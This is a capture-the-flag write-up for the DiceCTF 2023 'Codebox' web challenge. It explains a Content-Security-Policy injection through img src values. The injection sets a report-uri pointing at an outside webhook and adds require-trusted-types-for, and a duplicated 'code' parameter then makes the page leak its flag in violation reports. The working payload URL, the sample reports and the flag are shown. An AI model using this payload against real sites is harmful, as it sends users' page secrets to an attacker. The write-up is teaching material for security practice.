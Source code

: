 # Codebox

## Description

strellic makes csp challs, maybe i should try one sometime

- **Author** : EhhThing
- **Category** : Web
- **Points** : 220
- **Solves** : 30

## Solution

### Understanding the challenge

In this challenge, we had a web page where we could insert any HTML. But there is [csp](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) in the web page 

```js
const CSP = [
        "default-src 'none'",
        "style-src 'unsafe-inline'",
        "script-src 'unsafe-inline'",
    ];
```

We can send HTML as a GET parameter `code` in the url.
In the [backend](/dicectf23-writeups/codebox/files/web.js) they will process the html and find the image tags

``` js
const fastify = require('fastify')();
const HTMLParser = require('node-html-parser');

const box = require('fs').readFileSync('box.html', 'utf-8');

fastify.get('/', (req, res) => {
    const code = req.query.code;
    const images = [];

    if (code) {
        const parsed = HTMLParser.parse(code);
        for (let img of parsed.getElementsByTagName('img')) {
            let src = img.getAttribute('src');
            if (src) {
                images.push(src);
            }
        }
    }
```
then for every image tag we add, they add the source of that to csp `img-src`

```
if (images.length) {
        csp.push(`img-src ${images.join(' ')}`);
    }
```

### CSP Injection

So there are no checks done in img src so we can add a `;` and add as much as csp attributes as we want. For example

`https://codebox.mc.ax/?code=<img src="*; script-src 'unsafe-inline'">`

This will add `script-src 'unsafe-inline'` to csp. So we can add any csp attribute we want.

![csp-injection](/dicectf23-writeups/codebox/images/csp-injection.png)

But actually, the HTML is added to the webpage using [frontend](/dicectf23-writeups/codebox/files/box.html)

```js
const code = new URL(window.location.href).searchParams.get('code');
    if (code) {
        const frame = document.createElement('iframe');
        frame.srcdoc = code;
        frame.sandbox = '';
        frame.width = '100%';
        document.getElementById('content').appendChild(frame);
        document.getElementById('code').value = code;
    }

    const flag = localStorage.getItem('flag') ?? "flag{test_flag}";
    document.getElementById('flag').innerHTML = `<h1>${flag}</h1>`;
```

### Using the csp injection

So our HTML is added to an [sandboxed](https://html.com/attributes/iframe-sandbox/) iframe. And none of the attributes is given, which means we can do practically nothing. We need the `allow-scripts` attribute in [sandbox](https://html.com/attributes/iframe-sandbox/) to execute scripts inside the iframe.

Now where we have injection is in the csp so we will take a look at csp attributes that we can set. We get a list of all attributes and compatible values from [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP#browser_compatibility)

So there are two interesting attributes

[report-uri](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri)
[require-trusted-types-for](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/require-trusted-types-for)

So what this does is that, whenever there is a violation of csp, the browser will send a report to the URL specified in report-uri. So we can use this.

We will get a report like this

```json
{
  "csp-report": {
    "document-uri": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22*%3B+report-uri+https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%3Bframe-src+%27none%27%22%3E",
    "referrer": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22*%3B+report-uri+%27https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%27%3Bframe-src+%27none%27%22%3E",
    "violated-directive": "font-src",
    "effective-directive": "font-src",
    "original-policy": "default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src *; report-uri https://webhook.site/73cb229b-f15a-4d83-ae54-cee42096f621;frame-src 'none'",
    "disposition": "enforce",
    "blocked-uri": "https://codebox.mc.ax/DMSans-Regular.ttf",
    "status-code": 200,
    "script-sample": ""
  }
}
```

**But how will we include the flag in it?**

That's where the other attribute comes in. `require-trusted-types-for` directive instructs user agents to control the data passed to DOM XSS sink functions, like the `Element.innerHTML` setter. Since we don't send and `trusted-types` header, whenever we try to set the innerHTML of any element the csp will block it and it will raise an error. That error will be sent to the report uri.

But when we set that csp `require-trusted-types-for 'script'`, this is  the error we get

![](/dicectf23-writeups/codebox/images/error.png)

We will get a report like

```json
{
  "csp-report": {
    "document-uri": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22*%3B+report-uri+https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%3Brequire-trusted-types-for+%27script%27%22%3E",
    "referrer": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22*%3B+report-uri+https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%3Bframe-src+%27none%27%22%3E",
    "violated-directive": "require-trusted-types-for",
    "effective-directive": "require-trusted-types-for",
    "original-policy": "default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src *; report-uri https://webhook.site/73cb229b-f15a-4d83-ae54-cee42096f621;require-trusted-types-for 'script'",
    "disposition": "enforce",
    "blocked-uri": "trusted-types-sink",
    "line-number": 50,
    "column-number": 22,
    "source-file": "https://codebox.mc.ax/",
    "status-code": 200,
    "script-sample": "HTMLIFrameElement srcdoc|<img src=\"*; report-uri https://webhook."
  }
}
```

This is because the first point where we do such an operation is in

```js
frame.srcdoc = code;
```

It will report that part of the code only. To bypass that the code needs to be `undefined`


### Fooling the browser

So we can't obviously send no `code` parameter and get the flag. But we need to take into account the interoperability of the backend and frontend. The backend is what is setting the [csp](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP), but the front end is checking the code. They are accessing the `code` in frontend using

```js
const code = new URL(window.location.href).searchParams.get('code');
```

This will take the first parameter in the url. But in node if we sent two parameters they will join both using a ',` so we will still get [csp](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) injection.

So sending a URL like this

`https://codebox.mc.ax/?code=&code=<img+src="*;+require-trusted-types-for+'script'+;+report-uri+https://your.domain.com/"+>`

will give a report

```json
{
  "csp-report": {
    "document-uri": "https://codebox.mc.ax/?code=&code=%3Cimg+src%3D%22*%3B+report-uri+https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%3Brequire-trusted-types-for+%27script%27%22%3E",
    "referrer": "",
    "violated-directive": "require-trusted-types-for",
    "effective-directive": "require-trusted-types-for",
    "original-policy": "default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src *; report-uri https://webhook.site/73cb229b-f15a-4d83-ae54-cee42096f621;require-trusted-types-for 'script'",
    "disposition": "enforce",
    "blocked-uri": "trusted-types-sink",
    "line-number": 58,
    "column-number": 47,
    "source-file": "https://codebox.mc.ax/",
    "status-code": 200,
    "script-sample": "Element innerHTML|<h1>flag{test_flag}</h1>"
  }
}
```

Sending this to admin will get you the correct flag


**Flag**: `dice{i_als0_wr1te_csp_bypasses}`
